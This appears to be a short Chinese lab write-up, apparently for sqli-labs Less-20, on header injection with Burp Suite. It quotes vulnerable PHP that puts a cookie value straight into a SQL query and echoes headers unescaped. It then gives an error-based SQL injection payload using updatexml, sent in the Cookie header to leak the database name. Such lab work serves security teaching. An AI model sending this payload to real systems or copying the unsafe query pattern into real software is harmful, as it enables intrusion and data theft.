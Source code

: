 # 使用 Burp Suite 进行 Header Injection

```php
$cookee = $_COOKIE['uname'];
$format = 'D d M Y - H:i:s';
$timestamp = time() + 3600;
echo "<center>";
echo '<br><br><br>';
echo '<img src="../images/Less-20.jpg" />';
echo "<br><br><b>";
echo '<br><font color= "red" font size="4">';	
echo "YOUR USER AGENT IS : ".$_SERVER['HTTP_USER_AGENT'];
echo "</font><br>";	
echo '<font color= "cyan" font size="4">';	
echo "YOUR IP ADDRESS IS : ".$_SERVER['REMOTE_ADDR'];			
echo "</font><br>";			
echo '<font color= "#FFFF00" font size = 4 >';
echo "DELETE YOUR COOKIE OR WAIT FOR IT TO EXPIRE <br>";
echo '<font color= "orange" font size = 5 >';			
echo "YOUR COOKIE : uname = $cookee and expires: " . date($format, $timestamp);
```



```php
echo "<br></font>";
$sql="SELECT * FROM users WHERE username='$cookee' LIMIT 0,1";
$result=mysqli_query($con1, $sql);
if (!$result)
{
    die('Issue with your mysql: ' . mysqli_error($con1));
}
$row = mysqli_fetch_array($result, MYSQLI_BOTH);
```

由代码片段知变量 \$cookee 可以进行注入，而 \$cookee 变量又是从 \$cookee = \$_COOKIE['uname']; 设置的

故先对网页进行拦截，再修改 cookie 值进行报错注入

```
Cookie: uname=admin' or updatexml(1,concat('~',(select database())),3)#
```


